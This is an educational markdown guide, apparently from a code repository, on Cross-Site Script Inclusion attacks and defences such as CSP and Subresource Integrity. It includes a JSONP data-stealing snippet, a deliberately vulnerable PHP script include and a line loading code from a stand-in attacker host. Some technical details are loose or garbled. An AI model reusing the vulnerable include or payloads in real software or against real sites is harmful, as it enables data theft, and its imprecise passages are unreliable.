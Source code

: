 # Cross-Site Script Inclusion (XSSI) Attack
Cross-Site Script Inclusion (XSSI) is a web security vulnerability that occurs when
an attacker is able to include or load a script from another domain and leverage it
to perform malicious actions. Unlike Cross-Site Scripting (XSS), which directly injects
and executes malicious scripts within a vulnerable site, XSSI relies on exploiting how
scripts are loaded and interpreted by the browsers, often taking advantage of the lack
of proper controls on script inclusion.

## How it works
XSSI typically involves tricking a vulnerable website or web applications into including
or referencing a script from an external, potentially malicious, source. The script may
contain sensitive information (like JSON data) that an attacker can steal or manipulate.
This attack usually exploits the fact that browsers do not enforce strict Same-Origin
Policy (SOP) on scripts loaded via `<script>` tags, allowing cross-origin requests.

## Typical XSSI Attack Scenarios

### Exploiting JSONP Endpoints
JSONP (JSON with Padding) is a technique used to bypass the Same-Origin Policy by
allowing the server to return JSON data wrapped in a function call. This method can
be exploited in an XSSI attack.

Example:
```HTML
<script src="https://example.com/api/data?callback=stealData"></script>
<script>
    function stealData(data) {
        console.log(data); // The attacker can now see the sensitive data.
    }
</script>
```

Vulnerability: If `https://example.com/api/data` returns sensitive data in JSONP
format, an attacker can steal the data by defining their own `stealData` function

Impact: Sensitive user data from the `example.com` site is exposed to the attacker.

### Including Third-Party Scripts
A web application includes scripts from third-party domains without proper validation
or integrity checks. If the third-party script is compromised or replaced with a malicious
one, the attacker can execute arbitrary code within the context of the vulnerable site.

Example:
```HTML
<script src="https://example.com/malicious.js"></script>
```

Vulnerability: The script from `example.com` could be malicious, containing code to
steal cookies, inject content, or perform unauthorized actions.

Impact: If `malicious.js` contains harmful code, it will execute within the user's
browser, potentially leading to data theft, session hijacking, or other attacks.

### Abusing Dynamic Script Inclusion
A web application dynamically includes scripts based on user input or URL parameters
without proper sanitization or validation.

Example:
```HTML
<script src="/scripts/<?php echo $_GET['script']; ?>.js"></script>
```

Vulnerability: An attacker could manipulate the `script` parameter to include a
malicious script...
```HTML
<script src="/scripts/https://attacker.com/evil.js"></script>
```

## Risk and Impacts of XSSI

### Data Exfiltration
XSSI can be used to steal sensitive data such as user information, session tokens,
or API keys from the targeted site.

### Cross-Origin Data Theft
By exploiting the lack of Same-Origin Policy enforcement on scripts, attackers
can steal data from other domains that are included via script tags.

### Session Hijacking
Malicious scripts included through XSSI can steal session cookies leading to session
hijacking and unauthorized access.

## Preventative Measures

### Use Content Security Policy (CSP)
Implement a strict CSP that restricts the domains from which scripts can be loaded.
This can prevent unauthorized script inclusion.

Example CSP Header:
```
Content-Security-Policy: script-src 'self' https://trusted-cdn.com;
```

### Avoid JSONP
Avoid using JSONP whenever possible. Instead, use CORS(Cross-Origin Resource Sharing)
with proper access controls to securely share resources across origins.

### Validate and Sanitize Input
Ensure that any input used to determine script inclusion (e.g. dynamic script loading) is
properly validated and sanitized to prevent share resource across origins.

### Use Subresource Integrity (SRI)
When including third-party scripts, use Subresource Integrity(SRI) to ensure that the
script has not been tampered with. SRI allows you to specify a cryptographic hash of the
script content, which the browser will check before executing it.

Example:
```HTML
<script src="https://trusted-cdn.com/library.js" integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxmR4LZZ4zE4rPb1jRIBP5yfoe8U3XU" crossorigin="anonymous"></script>
```

### Avoid Including Untrusted Scripts
Limit the use of external scripts to those from trusted sources. Avoid dynamically
including scripts based on user input or untrusted parameters.

### Same-Origin Data Policies
Ensure that sensitive data is protected by the Same-Origin Policy. For example,
avoid serving sensitive data via scripts that can be easily included on other domains.

### Use Secure API Endpoints
Protect API endpoints that return sensitive data with proper authentication,
authorization, and CSRF protections to prevent unauthorized access through script
inclusion.

## Conclusion
Cross-Site Script Inclusion (XSSI) is a serious web security vulnerability that can
lead to data theft, malicious code execution, and other attacks. By understanding how
XSSI works and implementing robust security measures, developers can protect their
web applications from these threats. Strong content policies, avoiding JSONP, validating
inputs, and using Subresource Integrity are essential steps in defending against
XSSI attacks.
